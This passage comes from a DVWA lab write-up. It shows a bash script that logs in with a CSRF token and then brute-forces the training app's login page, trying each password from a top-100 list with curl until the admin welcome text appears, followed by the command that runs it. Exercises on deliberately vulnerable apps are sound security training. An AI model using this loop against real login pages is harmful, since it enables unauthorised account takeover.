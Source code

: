 ```bash
-X POST "${HOST}/login.php" \
--data-raw \
"username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${CSRF}"

# read each line of password list file
filename='../10-million-password-list-top-100.txt'

while read line; do
	echo "using user: $USER and password: $line"
	# enter username and password in brute force page: /vulnerabilities/brute/
	RES=`curl -L -v -c cookies.txt -b cookies.txt "${HOST}/vulnerabilities/brute/?username=${USER}&password=${line}&Login=Login#"`

	if [[ $RES == *"Welcome to the password protected area admin"* ]]; then
	  printf "\n 🎉 password found: $line\n"
	  exit 0
	else
	  printf "\n 🥲 trying password: $line but failed.\n"
	fi
	
done < $filename
```

writeups/brute-force-walkthrough.sh at main · vansteki/writeups
[https://github.com/vansteki/writeups/blob/main/DVWA/1.brute-force/tool/brute-force-walkthrough.sh](https://github.com/vansteki/writeups/blob/main/DVWA/1.brute-force/tool/brute-force-walkthrough.sh)

```bash
./brute-force-walkthrough.sh
```

### Done

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%202.png)
